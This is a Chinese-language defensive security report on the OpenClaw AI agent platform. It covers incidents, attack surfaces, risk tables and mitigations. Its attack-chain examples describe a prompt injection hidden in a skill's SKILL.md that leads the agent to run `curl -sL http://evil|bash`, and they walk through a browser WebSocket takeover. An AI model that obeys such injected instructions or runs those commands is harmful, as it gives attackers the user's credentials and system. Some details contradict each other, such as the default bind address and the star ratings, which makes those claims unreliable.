

# 执行摘要  
OpenClaw 作为热门的开源 AI 代理平台，以其多渠道消息接入和本地执行能力迅速走红，GitHub 星标已超**27 万**【2†L18-L26】。但项目默认采用“单用户信任边界”模型，过于信任本地连接，缺乏针对恶意用户和代码的隔离和审计。近期安全事件频发：2026 年 2 月披露的 **ClawJacked** 漏洞（已在 v2026.2.25 修复）允许任意网站通过本地 WebSocket 暴力破解密码并接管代理【17†L259-L268】【18†L83-L92】；ClawHub 插件市场被发现有**1184** 款恶意技能，伪装成交易工具上传恶意 `SKILL.md`，诱导执行下载窃密木马【26†L67-L75】；还有攻击者借助 Bing 搜索推广伪造安装包，在 Windows 平台分发 Vidar 信息窃取器和 GhostSocks 代理木马【20†L169-L174】【23†L121-L128】。以上事件表明，OpenClaw 的攻击面包括**核心平台漏洞**、**生态供应链（技能/插件）**、**分发渠道伪装**、**部署环境配置**和**权限滥用**等多层次风险。本文深入分析 OpenClaw 架构与能力边界、官方威胁模型与建议，梳理已知漏洞与安全事件时间线，归类各类攻击面并给出典型攻击链示例。最后对不同用户（个人、开发者、企业）进行风险评估，并提出安装部署、隔离沙箱、权限控制、审计监控等可操作的缓解措施和最佳实践，为技术中级读者提供全面的安全洞察和参考。  

# 项目概览与热度  
OpenClaw（前称 Clawdbot、Moltbot）是一款本地部署的**开源 AI 代理**，由 Peter Steinberger 开发，主打“一人一代理”的概念，支持在多平台（Windows/Linux/macOS）运行，通过 **Gateway + Node** 架构串联终端、浏览器、消息应用、文件系统和外部服务，帮助用户自动化处理事务和工作流程。该项目自 2025 年 11 月推出以来爆发增长：截至 2026 年 3 月，GitHub 星标已超过 **27.0 万**【2†L18-L26】（全球排名前十），粉丝众多。最新稳定版本在 2026 年 3 月 8 日发布，但同时也频频出现安全公告。需要注意的是，OpenClaw 的设计假设**信任部署环境**：官方安全文档明确指出“*个人助手信任模型：每个网关对应一个信任边界，非支持恶意多租户*”【7†L145-L154】。换言之，原厂期望用户仅在本地单一操作者场景下使用，不建议多人共用或公开部署。  

# 架构与能力边界  
OpenClaw 核心由一套 **Gateway + Node（设备）** 架构组成【17†L232-L240】【34†L94-L102】：Gateway 是本地运行的 WebSocket 服务（默认监听 `127.0.0.1:18789`），负责身份验证、聊天会话管理和指令调度；Node 可为本地终端应用（如 macOS 桌面客户端、iOS/Android APP 或 Linux 后台进程），向 Gateway 注册并公开自身能力（如运行 Shell 命令、读写文件、操控摄像头、麦克风、定位、剪贴板等）。用户通过命令行或 Web 仪表盘向 Gateway 发送输入（聊天消息、指令），Gateway 根据配置调用模型生成响应，再通过 Node 执行输出的工具请求（例如运行 `bash`、发送邮件、访问网页等）。  

- **多渠道集成**：OpenClaw 内置了对 WhatsApp、Telegram、Signal、Slack、Discord、Microsoft Teams、SMS、邮件等的接入支持【4†L987-L1002】【4†L1027-L1033】；这些通信渠道均通过 Gateway 统一调度，使 AI 代理能够跨平台收发消息和触发任务。  
- **文件与浏览器**：用户可开启“浏览器控制”功能，让代理打开浏览器导航网页；也可通过文件工具（read/write）访问本地文件系统。由于代理可以执行任意 Shell 命令，若开启权限即具有完整的系统控制能力【40†L959-L963】。  
- **插件与技能**：OpenClaw 支持用 **JavaScript/TypeScript 插件** 和**ClawHub 技能包**扩展功能。插件运行在 Gateway 进程中，应视为**高权限可信代码**；而 ClawHub 技能（开放市场）允许开发者上传可被代理执行的指令模板（`SKILL.md`），此处易埋下供应链风险。  
- **能力边界**：官方文档强调权限边界的核心概念——**“先身份、后作用域、再模型”**【9†L723-L732】。也就是说，安全配置首重限定谁能访问代理（采用设备配对或显式允许列表控制），次重限定代理能做什么（通过会话隔离、多用户模式、沙箱等设置划定作用域），最后才考虑模型自身的鲁棒性。  

> **小结**：OpenClaw 本质上是一个高权限的 AI 代理平台，能接入各种通讯工具、执行系统命令、读写文件，能力类似操作系统级的机器人。“它做的事”远超普通聊天 AI，因此需要相应的安全模型来限制其行为范围和交互对象。  

# 官方威胁模型与安全建议  
OpenClaw 官方公开了详细的安全指南和威胁模型文档【7†L145-L154】【31†L118-L126】。其威胁模型基于 MITRE ATLAS 框架，涵盖从**提示注入、恶意技能安装、会话劫持到数据窃取、资源滥用**等攻击技术（见《Threat Model Atlas》）【31†L79-L87】【31†L197-L205】。核心安全理念是：**控制要先于智能**。具体来说：  
- **身份验证**：Gateway 默认绑定本地主机令其信任本机连接，身份认证方式可用长随机令牌或密码【17†L241-L249】。官方要求必须对谁能与代理对话做严格控制，如使用配对模式（pairing）或允许列表，避免让陌生人直连【9†L789-L798】【9†L815-L824】。  
- **作用域限制**：可通过会话隔离、渠道允许列表、沙箱运行等方式限制代理可达范围。例如官方推荐对群聊启用仅@提及激活，对直接消息使用配对或显式允许，并对“控制平面”工具（如 `gateway.config.patch` 等）在不可信来源禁用【9†L775-L784】【9†L754-L763】。对于非主会话（组/群场景），建议使用 Docker 等沙箱技术避免代理命令直接在主机上执行【40†L959-L963】。  
- **沙箱与审计**：安全指南提供了 `openclaw security audit` 工具，能检查常见风险（如端口暴露、浏览器控制暴露、敏感配置等）【7†L173-L182】。文档还建议“**先启动最小权限，再逐步放宽**”（起始仅允许必要命令、严格控制文件访问）【7†L191-L196】，并将代理置于隔离主机或容器内。  
- **插件与技能安全**：由于插件代码直接运行在 Gateway 进程中，官方明确“仅从可信源安装插件”【9†L771-L779】；同时建议指定插件版本并检查其解包后的代码。对于 ClawHub 技能，OpenClaw 团队已引入 VirusTotal 扫描等机制，但用户仍需谨慎，只安装信誉良好的技能，并定期审查代理日志和配置【26†L113-L121】【7†L173-L181】。  

> **小结**：官方安全文档反复强调 OpenClaw 的默认假设是**“一人一代理”**，不把一个代理当作多租户安全边界【7†L145-L154】。官方建议将代理视为极具权限的工具（类似个人服务器或自动化机器人），并通过设备配对、渠道允许列表、会话隔离、命令沙箱等多重策略进行防护。  

# 漏洞与事件时间线  
**2026年1月**：OpenClaw 发布 v2026.1.29 版本，修复了远程代码执行（CVE-2026-25253）、SSH 命令注入（CVE-2026-25157）和 Docker 沙箱逃逸（CVE-2026-24763）等重大安全漏洞【44†L55-L59】。SecurityScorecard 报告称，过去一周已有**3个高风险安全公告**相继发布，显示项目快速迭代安全补丁【25†L110-L118】。  

**2026年2月上旬**：安全研究者发现 OpenClaw 安装配置的重大缺陷——默认绑定所有网络接口（`0.0.0.0:18789`），导致大量实例直接暴露于互联网中【44†L42-L50】。SecurityScorecard STRIKE 团队扫描结果显示，截至 2 月 9 日，全球至少有**42,900** 个 OpenClaw 实例暴露互联网，其中约 **15,200** 个存在已知 RCE 漏洞（占三分之一）【44†L36-L44】。另外，2 月 9 日，安全分析师 Huntress 报告称攻击者通过 Bing AI 搜索将用户引导至恶意 GitHub 仓库（如 `openclaw-installer`），分发伪造 OpenClaw Windows 安装包。受害者下载安装后，该伪装程序加载了 Vidar 信息窃取器和 GhostSocks 代理木马，将主机变为犯罪分子流量转发节点【20†L169-L174】【23†L121-L128】。这些恶意库仅在 2 月 2 日至 10 日间上线，在被举报后已被移除。  

**2026年2月中旬**：ClawHub 技能市场遭遇供应链危机。安全研究员发现多达 **1184** 欺诈技能，其中一个攻击者上传了 **677** 欺诈包【26†L67-L75】。这些技能伪装成常见助手（如“做什么 Elon 会做”），在 `SKILL.md` 中隐藏了恶意指令（如 `curl -sL 恶意链接 | bash`），部署 AMOS 窃取用户浏览器密码、SSH 密钥、API 密钥等敏感数据【26†L78-L87】。Cisco AI 防护团队的审计也表明，部分热门技能含有严重漏洞，一经下载即静默泄露数据【26†L91-L100】。OpenClaw 官方在 2 月底前承诺引入更严格的技能审核与沙箱扫描机制。  

**2026年2月25–26日**：Oasis Security 公布了 **ClawJacked** 漏洞技术分析，揭示任何网站均可通过浏览器静默地对本地 OpenClaw 进行暴力破解。一旦成功，该网站能注册为受信设备、控制 AI 代理、读取日志等【17†L259-L268】【18†L83-L92】。当天下午，OpenClaw 团队即发布 v2026.2.25 版本修复了本地 WebSocket 连接的来源校验与失败节流问题【17†L325-L333】【18†L107-L110】。与此同时，2 月中旬还有安全团队报告了针对开放实例的**日志注入**漏洞（2 月 13 日发布的 v2026.2.13 修复了该问题）【18†L126-L134】。此外，Bitsight 和 NeuralTrust 等机构警告说，成千上万暴露在互联网上的 OpenClaw 实例与多起数据泄露事件有关，攻击者可借提示注入等手法直接滥用这些代理【18†L119-L128】。  

**2026年3月初**：媒体持续关注 OpenClaw 安全态势。SecurityScorecard 及多家报道总结认为：OpenClaw 尚处于“vibe-coded”（低成熟度快速开发）阶段，功能虽强但**安全保障不足**【38†L102-L110】【43†L31-L33】。各地企业开始限制员工使用，有中文安全预警要求部门关闭不必要的公网访问、强化身份认证等【43†L31-L39】【43†L45-L49】。  

【时间线概览请见下图】：

# 攻击面分类  
OpenClaw 的攻击面可分为以下主要类别：  

- **核心平台（Gateway/节点）**：漏洞或配置不当的本地代理本身是最大风险源。包括前述的 ClawJacked 漏洞（利用本地 WebSocket 信任绕过）【17†L259-L268】【18†L83-L92】、配置缺省绑定所有地址【44†L42-L44】、默认密码保护弱等问题。这类攻击如果成功，等同于完全接管用户环境——攻击者可以通过代理的 `system.run` 等工具执行任意命令【17†L304-L312】【18†L83-L92】。  
- **生态供应链（ClawHub 技能与插件）**：第三方技能市场极易被投毒。研究表明，ClawHub 容许几乎零门槛发布，攻击者上传了上千个恶意技能【26†L67-L75】。一旦用户安装，这些技能就可执行隐藏的恶意指令（下载并运行窃密程序）【26†L78-L87】。此外，GitHub 插件源若不可信亦可引入后门；官方建议将插件视为高权限代码，最好使用精确版本并审查其源代码【9†L771-L779】。  
- **分发渠道与版本伪造**：热门项目容易遭遇假冒下载。攻击者通过虚假 GitHub 仓库传播恶意“安装包”（分发层面攻击）。用户一旦执行，即感染信息窃取器【20†L169-L174】【23†L121-L128】。此外，如果用户未及时更新，也可能运行含漏洞的旧版本。  
- **运行环境与部署配置**：OpenClaw 默认全网监听和高权限运行，这使得**部署环境本身成攻击面**。截至 2 月，已有上万实例因默认设置暴露互联网【44†L36-L44】。若企业网络中未对其访问加防火墙控制，一个漏洞就能被远程利用。此外，诸如未加固的 Docker/系统、漏配的 TLS/SSH 等也是风险点。  
- **权限滥用**：官方配置中，代理会话默认在主机上直接运行指令【40†L959-L963】，意味着授权给 OpenClaw 的任何权限都相当于赋予了该程序系统级控制权。通过社交工程诱导、身份欺骗或提示注入操控代理，都可能让代理执行越权动作（发送敏感信息、修改设置、抓取 API 密钥等）。  

> **攻击链示例**：  
> 1. **ClawJacked 路径**：用户正常浏览网页时误入钓鱼网站。该网站的 JavaScript 利用浏览器允许本地 WebSocket 连接的特性，连接到 `localhost:18789`，并高速暴力破解代理密码（本地连接不受失败限速）。密码被猜中后，脚本自动与代理建立新设备会话（本地请求自动配对），此时攻击者拥有管理员权限【17†L259-L268】【18†L83-L92】。攻击者进一步可发送任意命令或读写配置，检索私信、导出日志、执行系统命令，完成对用户工作站的完全劫持。  
> 2. **恶意技能链路**：受害者在 ClawHub 上搜索“交易机器人”时，下载并激活了某个恶意技能。该技能的 `SKILL.md` 文件中嵌入了一个隐蔽的提示注入（如建议运行 `curl -sL http://evil|bash`）。当代理执行该技能时，即在后台下载并运行恶意 shell 脚本（AMOS 或其他木马）。结果，攻击者得以窃取本地浏览器密码、SSH 私钥、API Key 等敏感信息，或反向开启远程 shell。整个过程用户通常无法察觉，传统杀毒难以检测自然语言形式的命令。  
> 3. **假安装包案例**：用户通过 Bing 搜索“OpenClaw Windows 安装”，AI 搜索结果误导其进入名为 `openclaw-installer` 的 GitHub 仓库，认为这是官方资源。下载后运行的“安装程序”实际上是一个包装器，会在后台加载多个恶意模块（包括 Vidar 窃取器和 GhostSocks 代理）。执行后，攻击者可监控用户的网页浏览账户信息，并将受害主机纳入僵尸网络，用于匿名通信或发起其他攻击【20†L169-L174】【23†L121-L128】。  

# 风险评估  
根据受影响对象不同，风险严重程度和防护重点亦有所差异：  

| 风险类型         | 普通用户                                  | 开发者（个人）                       | 企业/组织                                   |
|--------------|---------------------------------------|---------------------------------|----------------------------------------|
| **核心平台漏洞**    | ★★★☆ 极高：用户若安装使用，任何核心漏洞都可能导致个人电脑被完全控制【17†L259-L268】【40†L959-L963】。不懂安全配置的用户风险更高。  | ★★★☆ 极高：开发者更可能使用高级功能（命令执行、文件访问），遭利用后损失大。可通过自行配置弱化风险。 | ★★★★ 最高：企业若内部有人使用开放代理，将直接影响机密信息安全。建议企业禁止或严格隔离使用。   |
| **供应链（技能/插件）** | ★★☆☆ 高：不常安装技能的普通用户风险相对低，但一旦安装恶意技能则极易泄露信息。   | ★★★★ 极高：开发者倾向试用各种技能，接触面广；恶意技能可直接盗取 API Key、代码等。    | ★★★☆ 高：企业开发团队需审慎批准任何新技能，否则可能在安全审计和合规上引发严重后果。 |
| **分发伪装**       | ★★★★ 极高：普通用户搜索下载安装容易受骗，一旦运行伪造安装包，中招后果严重【20†L169-L174】【23†L121-L128】。 | ★★★☆ 高：开发者可能更倾向从官方渠道下载，但仍需警惕搜索结果中的伪冒仓库。 | ★★★☆ 中高：企业IT可以统一部署，风险可控；若员工个人设备下载恶意软件，则为漏洞来源。 |
| **部署环境/配置**  | ★★☆☆ 中等：个人通常直接用默认设置，默认绑定全网的风险存在，但影响范围仅限个人设备。【44†L42-L44】  | ★★★☆ 高：开发者更可能开放网关供他人访问（如团队共享），若不加防护（VPN/防火墙），易被远程利用。 | ★★★★ 极高：企业内部网络如无安全限制，易被广泛扫描攻击；已知有**百万级**扫描发现超过 13.5 万 实例开放公网【38†L102-L110】。 |
| **权限滥用**      | ★★★☆ 极高：普通用户安装后默认以当前用户权限运行，攻击者可高权限滥用（如读写文件、发送邮件）【40†L959-L963】。 | ★★★☆ 极高：开发者赋予代理更多权限（云服务密钥、SMTP令牌等），一旦代理被利用，权限泄露可能连锁影响其他系统。 | ★★★★ 极高：企业账号和云密钥集中管理，一旦代理被攻破，大量敏感数据和服务会暴露，后果严重。 |  

> **评估说明**：普通用户和个人开发者（对新技术好奇的个人）风险偏向于**个人身份和工作站被劫持**；而在企业环境，OpenClaw 的风险还涉及**合规与内部数据泄露**。例如普通用户下载安装伪造程序最多损失本机数据；但企业若无监管，泄露的 API Key、凭证可能导致全网连锁泄漏。在最坏情况下，任何级别的 OpenClaw 漏洞都可让攻击者获得**系统权限**【40†L959-L963】。  

# 缓解与最佳实践  
针对上述风险，可采取以下综合防护措施：  

- **安装与部署**：严格从官网或 GitHub 官方仓库下载安装，验证哈希值；更新至最新安全版本（如 2026.2.25+）【18†L107-L110】。部署时**只监听本地接口**（`127.0.0.1:18789`），关闭不必要的网络访问【44†L42-L44】。切勿将 Gateway 端口直接暴露于公网，使用 SSH 隧道或 VPN 隔离管理界面。为每个用户或用途分别部署代理实例，避免多人共用一个 Gateway。  
- **权限与隔离**：给 OpenClaw 运行账户分配**最小权限**，可考虑在虚拟机或容器中运行代理。避免以管理员/Root 身份运行，并限制可访问目录。官方建议对群组会话启用 Docker 沙箱（`agents.defaults.sandbox.mode`），将非主会话与主机隔离【40†L959-L963】。如果使用 Node 引入浏览器控件、摄像头等设备，请事先评估风险，不必功能时禁用。  
- **渠道与身份控制**：严格设置消息渠道的**允许列表**：关闭公开对话（`dmPolicy="open"`）选项，仅与可信联系人配对聊天【9†L789-L798】；对群聊启用必须@提及策略，避免代理响应未知消息。定期审查 `openclaw pairing list`，撤销已不再使用的设备/用户。  
- **技能与插件管理**：只从可信开发者处获取技能或插件。对于 ClawHub 技能，可事先使用 `clawhub inspect <skill>` 查看脚本内容，或借助 VirusTotal、Script Safety 扫描 `SKILL.md` 中的命令。使用固定版本号安装插件（避免 `latest` 标签），并在升级前备份配置以便回滚。定期运行 `openclaw security audit` 以发现高风险插件或滥用配置【7†L173-L182】。  
- **凭证与秘密治理**：避免将敏感凭证直接存储在 OpenClaw 配置或会话中。对于必需的 API 密钥，应使用最短有效期的令牌，并赋予仅能访问必需资源的权限。参考恶意安装包事件，【20†L200-L205】建议为代理创建专用的非人类服务身份（如专属账号），并限制其权限和网络访问。所有代理相关的密钥、凭据应进行加密存储，并启用轮换策略。  
- **审计与监控**：开启 OpenClaw 日志记录和会话审核功能。记录代理执行的命令、API 调用和关键信息访问日志，并定期检查异常行为（例如代理突然访问未知 IP、发送大量邮件）。企业环境中可将代理流量通过 SIEM 监控，检测可能的提示注入或循环任务。一旦怀疑代理被入侵，应立即隔离该实例网络并重置所有相关密钥【9†L786-L789】【20†L191-L200】。  
- **CI/CD 和供应链治理**：若企业内部使用 OpenClaw，可将技能/插件纳入内部审核流程。在构建流水线中增加安全扫描（如静态分析、提示注入检测、依赖库漏洞扫描）步骤。对于开源技能，密切关注官方社区公告和安全研究报告，禁止使用已知恶意的“热门”技能。  

> **最佳实践总结**：OpenClaw 功能强大但并非“即插即用”的安全产品。使用时应秉持“隔离即安全”的原则，将其视作本地运行的服务而非简单应用。对初级用户，建议仅在无需保护的隔离环境中试用，并严格避免输入敏感个人信息【43†L45-L49】【20†L200-L205】。对开发者和企业，则需综合加固：**最小权限**、**强认证**、**定期审计**，以及**供应链透明度**。只有这样，才能在享受智能助理带来便利的同时，将安全风险降到最低。  

# 风险矩阵

| 风险类别       | 影响内容                    | 风险严重性（普通用户/开发者/企业）              |
|--------------|-------------------------|----------------------------------------|
| 核心系统漏洞    | 恶意网站取代用户操作、完全接管代理  | ★★★★ / ★★★★ / ★★★★★ （高权限下单点失败）【17†L259-L268】【40†L959-L963】 |
| 生态供应链（技能/插件） | 安装恶意技能导致凭证和数据泄露  | ★★★☆ / ★★★★ / ★★★★ （代理持有的秘钥爆发）【26†L67-L75】【9†L771-L779】 |
| 分发伪装       | 伪装安装包植入信息窃取木马       | ★★★★ / ★★★☆ / ★★★☆ （匿名下载高风险）【20†L169-L174】【23†L121-L128】 |
| 部署环境配置    | 暴露在公网的实例遭远程攻击       | ★★☆ / ★★★☆ / ★★★★★ （大规模扫面攻击）【44†L36-L44】【38†L102-L110】 |
| 权限滥用       | 代理执行越权操作（系统级）      | ★★★☆ / ★★★☆ / ★★★★ （执行敏感命令造成危害）【40†L959-L963】 |

# 自媒体写作素材  

**文章标题候选：**  
- 《OpenClaw 爆红后，我更关注它的安全风险》  
- 《别让 OpenClaw 把你的数据也带走：热门 AI 代理的安全剖析》  
- 《OpenClaw 突然火了！这些隐患你必须知道》  
- 《AI 时代的安全教训：OpenClaw 功能强大却处处裸奔》  

**段落大纲（公众号深度分析风格）：**  
1. **项目背景与热度**：介绍 OpenClaw 的定位、快速走红（星标、版本动态），强调“开源、全平台”带来的关注；引出安全分析必要性。  
2. **架构与能力边界**：图解网关+节点架构、集成功能（消息渠道、浏览器、终端、文件等）；指出其“机器人”特性和权限范围。  
3. **官方安全模型与建议**：阐述个人助手信任模型，官方警告与安全审计工具，强调身份->作用域->模型的顺序；说明默认缺乏隔离。  
4. **典型安全事件**：按时间顺序梳理 ClawHub 恶意技能（供应链攻击）、ClawJacked 本地提权、假冒安装包事件；引用数据和案例（窃密命令示例、Bing 搜索中毒）。  
5. **攻击面分类分析**：从核心平台、技能生态、分发渠道、环境配置、权限滥用五个角度分析风险源，例示每类场景的潜在攻击链。  
6. **风险评估对比**：对普通用户/个人开发者/企业分别评估上述风险，说明谁承受多大程度威胁，为何等级不同。  
7. **防护策略与最佳实践**：给出具体措施清单：安全配置（网络、身份、权限）、隔离部署（VM/沙箱）、审计监控、供应链治理等；着重强调更新补丁与最小权限。  
8. **结论与建议**：总结 OpenClaw 的价值与风险：不否定其创新，但警示“越像操作系统的工具越需要专业部署”。重申关键论点，如“一人一代理信任边界”、“功能即风险边界”。  

**关键论点句：**  
- **OpenClaw 不是普通聊天 AI，而是一款“操作系统级”的本地 AI 代理**：它能执行终端命令、读写文件、访问云服务，**权限之大决定了其安全风险**（`tools run on the host`【40†L959-L963】）。  
- **信任边界仅限个人使用**：官方文档明确“单个信任操作者模型”，不支持多人共享【7†L145-L154】；否则请为不同用户拆分代理实例。  
- **ClawHub 供应链存在严重背后门**：安全研究发现 **1184** 欺诈技能，包含窃密指令【26†L67-L75】；用户安装时应当格外谨慎，否则恶意 `SKILL.md` 可毫无声息地执行远程命令。  
- **ClawJacked 漏洞证明了过度信任本地**：任何访问过本站的网页都可尝试连接本地 OpenClaw，暴力破解无记录密码，一旦成功**秒级接管**代理【17†L259-L268】【18†L83-L92】。  
- **默认配置是安全隐患**：OpenClaw 默认绑定 `0.0.0.0` 全网，用户一般不手动改配置，导致**上万实例暴露公网**【44†L42-L44】；企业和个人都可能成为无意中的“开放攻击面”。  
- **分发渠道需验证**：攻击者利用 Bing AI 排位推广恶意仓库【20†L169-L174】【23†L121-L128】，提醒用户一定要确认软件来源，避免“还没用到 AI 就被木马攻陷”。  
- **防护基石是最小权限和隔离**：如安全分析所建议，**在隔离的虚拟机/容器运行 OpenClaw**，严格限制代理的网络和系统权限，审核并监控其执行动作，以弥补自身安全不足【20†L200-L205】【7†L173-L182】。  
- **结论**：“OpenClaw 值得关注，但不是适合所有人的安全助手”。只有懂技术、能控制权限的人，才该使用它。对于普通用户，则更应观望或在封闭环境下试用，**不要**盲目将其视为“天生安全”的工具【43†L45-L49】【20†L200-L205】。  

**可引用链接列表（主要参考）：**  
- OpenClaw 官方文档与安全指南【7†L145-L154】【9†L769-L778】  
- OASIS Security 技术报告（ClawJacked 漏洞分析）【17†L259-L268】【17†L325-L333】  
- TheHackerNews 报道（ClawJacked 漏洞、其他 CVE 修复）【18†L83-L92】【18†L107-L110】  
- Malwarebytes 与 Huntress 分析（恶意安装包事件）【20†L169-L174】【20†L200-L205】  
- TheRegister 报导（Bing 搜索中毒及安全综述）【23†L121-L128】【38†L102-L110】  
- CyberSecurityNews 报告（ClawHub 恶意技能统计）【26†L67-L75】【26†L113-L121】  
- 国内安全媒体报道（分析及预警）【43†L31-L39】【44†L36-L44】 (优先官方通告和中文分析)